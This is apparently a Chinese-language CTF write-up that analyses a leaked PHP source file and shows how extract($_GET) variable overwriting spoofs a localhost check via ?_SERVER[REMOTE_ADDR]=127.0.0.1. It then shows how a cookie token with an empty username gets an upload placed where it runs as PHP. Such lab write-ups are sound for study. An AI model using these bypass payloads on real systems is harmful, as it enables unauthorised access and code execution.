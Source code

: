 ### 参数置空绕过

话不多说，直接上题（青少年 CTF 练习平台）

![](https://pic1.imgdb.cn/item/68196bba58cb8da5c8de8893.png)

扫描目录发现有个 `index.php.bak`

```php+HTML
<?php 
error_reporting(0);
$token = $_COOKIE['token'] ?? null;

if($token){
    extract($_GET);
    $token = base64_decode($token);
    $token = json_decode($token, true);


    $username = $token['username'];
    $password = $token['password'];
    $isLocal = false;
    
    if($_SERVER['REMOTE_ADDR'] == "127.0.0.1"){
        $isLocal = true;
    }

    if($isLocal){
        echo 'Welcome Back，' . $username . '!';
        if(file_exists('upload/' . $username . '/' . $token['filename'])){
            echo '<br>';
            echo '<img src="upload/' . $username . '/' . $token['filename'] .'" width="200">';
        } else {
            echo '请上传您高贵的头像。';
            $html = <<<EOD
            <form method="post" action="upload.php" enctype="multipart/form-data">
                <input type="file" name="file" id="file">
                <input type="submit" value="Upload">
            </form>
            EOD;
            echo $html;
        }
    } else {
        // echo "留个言吧";
        $html = <<<EOD
        <h1>留言板</h1>
        <label for="input-text">Enter some text:</label>
        <input type="text" id="input-text" placeholder="Type here...">
        <button onclick="displayInput()">Display</button>
        EOD;
        echo $html;
    }
} else {
    $html = <<<EOD
<!DOCTYPE html>
<html>
<head>
    <title>Login</title>
</head>
<body>
    <h2>Login</h2>
    <form method="post" action="./login.php">
        <div>
            <label for="username">Username:</label>
            <input type="text" name="username" id="username" required>
        </div>
        <div>
            <label for="password">Password:</label>
            <input type="password" name="password" id="password" required>
        </div>
        <div>
            <input type="submit" value="Login">
        </div>
    </form>
</body>
</html>
EOD;
    echo $html;
}
?>

<script>
    function displayInput() {
      var inputText = document.getElementById("input-text").value;
      document.write(inputText)
    }
</script>
```

**主要功能流程：**

1. 获取 Cookie 中的 `token` 值

   ```php
   $token = $_COOKIE['token'] ?? null;
   ```

2. 解析 `token` 内容

   ```php
   $token = base64_decode($token);
   $token = json_decode($token, true);
   ```

3. 判断访问者是否为 `127.0.0.1`

   ```php
   if ($_SERVER['REMOTE_ADDR'] == "127.0.0.1")
   ```

4. 本地用户功能

   显示欢迎语；

   检查头像文件是否存在；

   若存在则展示头像；

   若不存在则提示上传表单（提交到 `upload.php`）

5. 远程用户功能：

   显示留言板（前端 HTML + JS 动态展示）

6. 未登录用户

   显示登录表单，提交至 `login.php`

**extract($_GET) 工作原理：**

```php
<?php
extract($_GET);
echo "Hello, $name!";
?>
```

请求：

```
http://example.com/index.php?name=Alice
```

结果：

```
Hello, Alice!
```

**变量污染攻击：**

```php
<?php
$token = "secure-token";
extract($_GET);
echo "Token is: $token";
?>
```

请求：

```
http://example.com/index.php?token=hacked
```

结果：

```
Token is: hacked
```

**`extract($GET);` 存在变量覆盖，可以利用这个把 `$SERVER['REMOTE_ADDR']` 覆盖成 `127.0.0.1`**

```
?_SERVER[REMOTE_ADDR]=127.0.0.1
```

首先登录

![](https://pic1.imgdb.cn/item/681acaf158cb8da5c8e1cc96.png)

然后污染找到文件上传点

![](https://pic1.imgdb.cn/item/681acb1658cb8da5c8e1ccf0.png)

上传成功后没有返回路径，在源码上可以看到这个

```php
if(file_exists('upload/' . $username . '/' . $token['filename']))
```

猜测文件上传到 `/upload/[username]/[filename]`，尝试发现是正确的

当存在 `username` 时，无论上传什么都不能被解析成 PHP 代码

把 `username` 置空，成功将文件上传到 upload 目录

```
token=eyJ1c2VybmFtZSI6IiIsInBhc3N3b3JkIjoiIn0=
```

![](https://pic1.imgdb.cn/item/687f6cab58cb8da5c8cb68b1.png)


